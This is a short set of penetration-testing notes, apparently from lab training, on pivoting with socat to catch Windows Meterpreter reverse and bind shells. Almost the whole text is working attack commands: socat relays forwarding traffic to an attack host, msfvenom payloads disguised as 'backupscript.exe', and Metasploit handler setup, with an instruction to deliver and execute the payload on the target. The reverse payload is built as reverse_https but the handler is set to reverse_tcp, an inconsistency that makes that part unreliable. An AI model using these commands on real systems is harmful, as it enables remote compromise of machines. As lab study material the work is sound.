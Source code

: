 ### Reverse shell

Socat is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling.

#### Starting Socat Listener

```bash
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18).

#### Creating the Windows Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

#### Configuring & Starting the multi/handler

```bash
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 0.0.0.0
msf6 > set lport 80
msf6 > run
```

Get the payload to the target and execute.

---
### Bind shell

We can create a bind shell using msfvenom with the below command.
#### Creating the Windows Payload

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

#### Starting Socat Bind Shell Listener

```bash
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

#### Configuring & Starting the Bind multi/handler

```bash
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/bind_tcp
msf6 > set RHOST 10.129.202.64
msf6 > set RPORT 8080
msf6 > run
```